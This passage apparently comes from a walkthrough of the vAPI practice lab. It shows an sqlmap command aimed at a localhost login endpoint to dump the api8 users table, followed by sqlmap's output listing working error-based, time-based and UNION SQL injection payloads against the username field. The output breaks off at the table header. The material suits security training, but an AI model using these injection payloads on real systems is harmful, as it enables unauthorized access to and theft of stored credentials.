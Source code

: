 The tables in the vapi database seems sorted by the tasks we are supposed to do. Lets dump out the data for that table.
```
sqlmap "http://localhost/vapi/api8/user/login" --data="username=test1&password=test2" -p username -D vapi -T a_p_i8_users --dump
```
```
        ___
       __H__                                                                                                                                                                                                                                                                            
 ___ ___[.]_____ ___ ___  {1.8.6.3#dev}                                                                                                                                                                                                                                                 
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                                                               
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:20:14 /2024-06-30/

[14:20:14] [INFO] resuming back-end DBMS 'mysql' 
[14:20:14] [INFO] testing connection to the target URL
[14:20:14] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=test1' AND GTID_SUBSET(CONCAT(0x716b6b6b71,(SELECT (ELT(6285=6285,1))),0x716a7a6a71),6285)-- UPWT&password=test2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test1' AND (SELECT 8597 FROM (SELECT(SLEEP(5)))bVMV)-- Fdoy&password=test2

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test1' UNION ALL SELECT NULL,CONCAT(0x716b6b6b71,0x67754b4c4f67766344637965545676576b666d4f7a4c634c5267467765614e5755436a6e55476c52,0x716a7a6a71)-- -&password=test2
---
[14:20:14] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.6
[14:20:14] [INFO] fetching columns for table 'a_p_i8_users' in database 'vapi'
[14:20:14] [INFO] fetching entries for table 'a_p_i8_users' in database 'vapi'
Database: vapi
Table: a_p_i8_users
[1 entry]
+----+---------------------------------+----------------------------------+------------------+----------+
| id | secret                          | authkey                          | password         | username |
```